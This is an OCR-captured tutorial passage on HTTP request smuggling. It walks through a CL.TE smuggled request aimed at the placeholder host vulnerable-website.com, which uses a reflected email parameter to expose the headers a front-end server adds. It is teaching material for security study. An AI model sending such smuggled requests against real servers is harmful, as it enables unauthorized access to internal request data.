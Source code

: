 There is often a simple way to reveal exactly how the front-end server is rewriting requests. To do this, you need to perform the following steps:

-   Find a POST request that reflects the value of a request parameter into the application's response.
-   Shuffle the parameters so that the reflected parameter appears last in the message body.
-   Smuggle this request to the back-end server, followed directly by a normal request whose rewritten form you want to reveal.

Suppose an application has a login function that reflects the value of the `email` parameter:

```http
POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 28

email=wiener@normal-user.net
```

This results in a response containing the following:

```html
<input id="email" value="wiener@normal-user.net" type="text">
```

Here you can use the following request smuggling attack to reveal the rewriting that is performed by the front-end server:

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 130
Transfer-Encoding: chunked

0

POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

email=POST /login HTTP/1.1
Host: vulnerable-website.com
...
```

The requests will be rewritten by the front-end server to include the additional headers, and then the back-end server will process the smuggled request and treat the rewritten second request as being the value of the `email` parameter. It will then reflect this value back in the response to the second request:

```http
<input id="email" value="POST /login HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-For: 1.3.3.7
X-Forwarded-Proto: https
X-TLS-Bits: 128
X-TLS-Cipher: ECDHE-RSA-AES128-GCM-SHA256
X-TLS-Version: TLSv1.2
x-nr-external-service: external
...
```
